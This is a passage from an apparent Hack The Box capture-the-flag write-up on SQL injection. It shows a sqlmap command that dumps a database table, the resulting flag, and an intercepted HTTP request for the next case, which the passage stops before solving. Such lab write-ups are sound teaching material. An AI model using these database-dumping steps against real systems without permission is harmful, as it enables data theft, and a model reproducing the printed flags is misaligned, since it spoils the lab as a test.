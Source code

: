 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204150310.png)

## Case 2
---

If we go to `case 2`, we will see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204150350.png)

Let's capture the request with burp and use sqlmap:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204150548.png)


We can do the following sqlmap command:

```
python3 sqlmap.py -r reqcase2.txt --batch --dump --threads 10
```

This outputs the following:

```
+----+----------------------------------------+
| id | content                                |
+----+----------------------------------------+
| 1  | HTB{700_much_c0n6r475_0n_p057_r3qu357} |
+----+----------------------------------------+
```

Got the flag: `HTB{700_much_c0n6r475_0n_p057_r3qu357}`


## Case 3
---

For case 3 we find the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204151814.png)

Let's intercept the request and send it to sqlmap:

```
GET /case3.php HTTP/1.1

Host: 94.237.61.252:35591

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Referer: http://94.237.61.252:35591/

Connection: keep-alive

Cookie: id=1

Upgrade-Insecure-Requests: 1

Priority: u=0, i
```

